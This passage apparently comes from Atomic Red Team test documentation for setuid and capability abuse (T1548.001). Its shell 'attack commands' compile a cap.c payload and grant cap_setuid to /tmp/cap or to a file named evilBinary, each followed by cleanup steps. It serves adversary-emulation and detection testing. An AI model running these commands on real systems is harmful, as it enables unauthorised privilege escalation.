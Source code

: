 | Name    | Description   | Type | Default Value                           |
| ------- | ------------- | ---- | --------------------------------------- |
| payload | cap.c payload | path | PathToAtomicsFolder/T1548.001/src/cap.c |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
cp #{payload} /tmp/cap.c
make /tmp/cap
sudo setcap cap_setuid=ep /tmp/cap
/tmp/cap
```

#### Cleanup Commands:

```sh
rm /tmp/cap
rm /tmp/cap.c
```

<br/>
<br/>

## Atomic Test #8 - Provide the SetUID capability to a file

This test gives a file the capability to set UID without using flags.

**Supported Platforms:** Linux

**auto_generated_guid:** 1ac3272f-9bcf-443a-9888-4b1d3de785c1

#### Inputs:

| Name           | Description                                   | Type | Default Value   |
| -------------- | --------------------------------------------- | ---- | --------------- |
| file_to_setcap | Path of file to provide the SetUID capability | path | /tmp/evilBinary |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
touch #{file_to_setcap}
sudo setcap cap_setuid=ep #{file_to_setcap}
```

#### Cleanup Commands:

```sh
rm #{file_to_setcap}
```

<br/>
<br/>

## Atomic Test #9 - Do reconnaissance for files that have the setuid bit set
